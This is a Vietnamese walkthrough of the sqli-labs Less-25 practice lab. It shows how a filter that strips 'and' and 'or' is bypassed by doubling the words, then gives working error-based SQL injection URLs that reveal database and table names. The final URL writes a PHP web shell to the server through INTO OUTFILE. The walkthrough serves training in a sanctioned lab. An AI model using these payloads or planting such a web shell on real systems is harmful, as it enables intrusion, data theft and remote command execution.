









# Less 25

Đề bài yêu cầu nhập vaò một giá trị



Tôi thử truyền vào một giá trị



Tôi thấy màn hình thông báo một cái gì đó liên quan đến `and` và `or`. Tôi thử nhập vào một số giá trị có thể gây ra lỗi xem có thấy gì không. Khi tôi nhập vào là `1'` thì thấy xuất hiện lỗi của SQL trên màn hình



Tôi có thể dự đoán câu query là 

```
select * from table where id='$id' limit 0,1
```

Tôi thử lại thì thấy câu query có thể đã đúng



Vì trên màn hình tối thấy có thông báo liên quan đến `and` và `or` nên tôi thử truyền vào



Thì tôi thấy ở dòng dưới dùng thông tin tôi truyền vào đã bị mất ký tự `and`. Theo dự đoán chúng ta có thể nhận định rằng bên dưới backend đã xử lý chuỗi nhập vào. Các ký tự `and` và `or` đã được loại bỏ. Tôi thử thêm lần nữa



Dựa vaò đây chúng ta có thể có thể khai thác các thông tin trong DB

Show tên DB

```
http://192.168.84.233/sqli-labs/Less-25/?id=1' || extractvalue(1,concat(0x7e,(select database())))--+
```


Show tên bảng 

```
http://192.168.84.233/sqli-labs/Less-25/?id=1' || extractvalue(1,concat(0x7e,(select table_name from infoorrmation_schema.tables where table_schema='security' limit 0,1)))--+
```



Ở đây vì `and` và `or` sẽ bị bỏ nên chỗ nào có `and` thì ta thay bằng `anandd` còn `or` thì chúng ta thay bằng `oorr`.

Như vậy bằng cách này ta có thể show toàn bộ DB như những vài trước.

Ta cũng có thể thêm một đoạn code php vào server

```
http://192.168.84.233/sqli-labs/Less-25/?id=1' union select 1,2,"<?php system ($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/a1.php' --+
```



